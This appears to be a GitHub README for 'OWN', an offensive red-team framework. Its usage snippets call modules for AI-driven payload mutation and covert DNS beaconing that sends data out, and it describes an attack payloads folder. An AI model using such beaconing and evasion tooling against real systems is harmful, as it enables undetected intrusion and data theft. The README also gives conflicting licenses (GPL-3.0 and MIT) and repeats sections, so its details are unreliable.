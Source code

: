 ![OWN Logo](.github/branding/logo.png)

![Tests](https://github.com/GnomeMan4201/reflexive-identity/workflows/Tests/badge.svg) ![Python](https://img.shields.io/badge/python-3.8+-blue.svg) ![License](https://img.shields.io/badge/license-MIT-green.svg) ![Stars](https://img.shields.io/github/stars/GnomeMan4201/reflexive-identity?style=social)


# OWN - Security Tooling

> **Legal Notice**: For authorized security testing, education, and research only. Users must comply with all applicable laws.

[![CI](https://github.com/GnomeMan4201/OWN/actions/workflows/ci.yml/badge.svg)](https://github.com/GnomeMan4201/OWN/actions)
[![Security](https://img.shields.io/badge/Security-Audited-green.svg)](SECURITY.md)

## Quick Start

```bash
git clone https://github.com/GnomeMan4201/OWN.git
cd OWN
./quickstart.sh
```

## Overview

Professional security tool for red team operations and security research.

## Features

- Enterprise-grade security testing
- Modular architecture
- Comprehensive documentation
- Active maintenance

## Installation

```bash
# Docker
docker-compose up -d

# Manual
pip install -r requirements.txt
```

## Documentation

Full documentation: [docs/](docs/)

## Security

Report vulnerabilities: [SECURITY.md](SECURITY.md)

## License

GPL-3.0 - See [LICENSE](LICENSE)

### Quick Start
```bash
# Run the quickstart script
./quickstart.sh

# Or run directly
python -m OWN_PACKAGE.pwn
Usage

Basic Operation

```python
from OWN_PACKAGE.pwn import main
from OWN_PACKAGE.phases import adaptive_mutator, dns_beacon

# Initialize the framework
controller = main.OWNController()

# Run adaptive security assessment
results = controller.run_assessment(target="example.com")
```

Module Examples

```python
# AI-driven payload mutation
from OWN_PACKAGE.phases.adaptive_mutator import AdaptiveMutator
mutator = AdaptiveMutator()
mutated_payload = mutator.mutate(original_payload)

# Covert DNS communication
from OWN_PACKAGE.phases.dns_beacon import DNSBeacon
beacon = DNSBeacon(domain="example.com")
beacon.send_data(encrypted_data)
```

Architecture

```
OWN/
├── OWN_PACKAGE/
│   ├── phases/           # 42 specialized modules
│   │   ├── ai_loop.py           # AI decision engine
│   │   ├── adaptive_mutator.py   # Payload mutation
│   │   ├── dns_beacon.py        # Covert communications
│   │   ├── memory_engine.py     # In-memory operations
│   │   └── [38 more modules...]
│   ├── pwn.py           # Main controller
│   └── payloads/        # Attack payloads
├── assets/              # Logos and demos
├── .github/workflows/   # CI/CD pipelines
└── quickstart.sh        # Setup script
```

Development

Code Quality

```bash
# Install development tools
pip install black isort flake8 pre-commit

# Run code formatting
black OWN_PACKAGE/

# Run linting
flake8 OWN_PACKAGE/

# Install pre-commit hooks
pre-commit install
```

Testing

```bash
# Run the test suite
python -m pytest tests/

# Verify functionality
python -m OWN_PACKAGE.pwn --test
```

⚠️ Security & Responsibility

Important: This tool is designed for:

· Authorized penetration testing
· Security research and education
· Defensive security development

Never use against systems you don't own or have explicit permission to test.

See SECURITY.md for responsible disclosure guidelines.

Contributing

We welcome contributions from security professionals.

1. Fork the repository
2. Create a feature branch (git checkout -b feature/advanced-module)
3. Commit your changes (git commit -m 'Add advanced evasion technique')
4. Push to the branch (git push origin feature/advanced-module)
5. Open a Pull Request

Please read our Security Guidelines before contributing.

License

This project is licensed under the MIT License - see the LICENSE file for details.

Authors

· GnomeMan4201 - Initial work and maintenance

Acknowledgments

· Cybersecurity community for research and techniques
· Open-source security tools that inspired this project
· AI/ML security research advancements

---

Disclaimer: Use responsibly and only in ethical, legal security testing contexts.

⭐ If this project helps you, please give it a star
